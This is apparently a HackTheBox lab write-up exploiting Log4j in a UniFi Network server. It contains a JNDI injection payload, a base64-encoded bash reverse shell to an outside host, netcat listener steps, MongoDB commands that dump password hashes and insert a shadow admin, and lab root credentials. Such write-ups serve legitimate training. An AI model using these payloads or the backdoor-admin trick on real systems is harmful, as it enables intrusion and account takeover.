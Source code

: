 ```yaml
---
title: "HackTheBox - Unified"
author: Nasrallah
description: ""
date: 2022-07-13 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, medium, log4j, burpsuite, mongodb]
img_path: /assets/img/hackthebox/machines/unified/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Unified](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running Unifi Network with a version vulnerable to log4j, we use that to get a reverse shell. The application(Unifi) is using Mongodb without authentication, so we add a shadow admin to login to the application as administrator, and there we find some ssh credentials.

## Enumeration

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.96.149                                             
Host is up (1.5s latency).                                                     
Not shown: 996 closed tcp ports (reset)                                   
PORT     STATE    SERVICE         VERSION                                 
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)            
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)                                                                                               
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)                                                                                             
6789/tcp open  ibm-db2-admin?                                                  
8080/tcp open  http-proxy
| fingerprint-strings:                                                         
|   FourOhFourRequest:                                                         
|     HTTP/1.1 404                                                             
|     Content-Type: text/html;charset=utf-8                                                                                                                   
|     Content-Language: en                                                                                                                                    
|     Content-Length: 431                                                      
|     Date: Mon, 01 Aug 2022 20:55:52 GMT                                 
|     Connection: close 
< **SNIP**>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24 
|_Not valid after:  2024-04-03T21:37:24
```

We see 4 open ports, ssh on 22 http on port 8080 and some other things.

### Web

Let's go to the webpage on port 8080.

![](1.png)

We get redirected to Unifi login page version 6.4.54. Let's google that version number and see if there is any vulnerabilities.

![](2.png)

We see that this version is vulnerable to the famous `log4j` with the CVE number `CVE-2021-44228`.

Found this [Article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) that would be our guide to exploit this vulnerability and get a reverse shell.

First, let's intercept a login request using burp and send it to repeater.

![](4.png)

We see 4 keys in this post request, username, password, rememberme and strict.

According to the article, the vulnerability is in the `rememberme` value issued in the login request.

![](3.png)

We can see where our payload would go.

To test the vulnerability, we can use `tcpdump` to listen for connection on port 1389 in the `tun0` interface which is our vpn connection. `sudo tcpdump -i tun0 port 1389`

The payload we will use is this one: `${jndi:ldap://10.10.16.10:1389/o=tomcat}`, put it in the rememberme value.

![](5.png)

Now send the request and you should see show in `tcpdump`.

![](6.png)

## Foothold

Now that we know the target is vulnerable, we're going to proceed to get a reverse shell.

First, we need to clone this [Github repository](https://github.com/veracode-research/rogue-jndi) and build the tool.

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi && mvn package
```

Once completed, we are going to need a payload that would sends us a reverse shell, the one we'll use is this `bash -c bash -i >&/dev/tcp/10.10.10.10/4444 0>&1`.

Now we need the base64 encode the payload with this command `echo 'bash -c bash -i >&/dev/tcp/10.10.10.10/4444 0>&1' | base64`

Now we need to start the rogue-jndi LDAP server with the following command.

```bash
java -jar rogue-jndi/target/RogueJndi-1.1.jar --command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTAvNDQ0NCAwPiYxCg}|{base64,-d}|{bash,-i}" --hostname "10.10.10.10"
```

>Replace the Base64 encoded string after “echo” in the command above with the one you generated. Replace the hostname variable with you IP

![](7.png)

Now setup a netcat listener `nc -lvnp 4444`

To get the reverse shell, go back to burp suite and send the same request as before.

![](9.png)

Back to the listener we see that we got a shell.

![](8.png)

For a better shell, execute the following commands 

```bash
script /dev/null -c bash
export TERM=xterm
"ctrl + x"
stty raw -echo;fg
```


## Privilege Escalation

According to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi), there is a MongoDB instance storing application information listening on localhost without authentication.

We can dump a JSON array of users and their password hashes using this command : `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

![](10.png)

Cracking the hash might take time so we're going to add our an admin user to the database.

First, we need to generate a sha-512 hash with the following command: `mkpasswd -m sha-512 pass123`

![](11.png)

Then we add our shadow admin with this command:

```bash
mongo --port 27117 ace --eval 'db.admin.insert({ "email" : "null@localhost.local", "last_site_name" : "default", "name" : "unifi-admin", "time_created" : NumberLong(100019800), "x_shadow" : "<PASSWORD-HASH>" })'
```

![](12.png)

Now we run this command to check if our admin has been added. `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`

![](13.png)

Yes, it's there. Now let's go back to Unifi login page and sign in using the credentials we just registered, in my case: `unifi-admin:pass123`

![](14.png)

From this point, things haven't been working smoothly with me. According to the official walkthrough, we should go to settings -> Site and find the following ssh credentials. `root:NotACrackablePassword4U2022`.

![](15.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
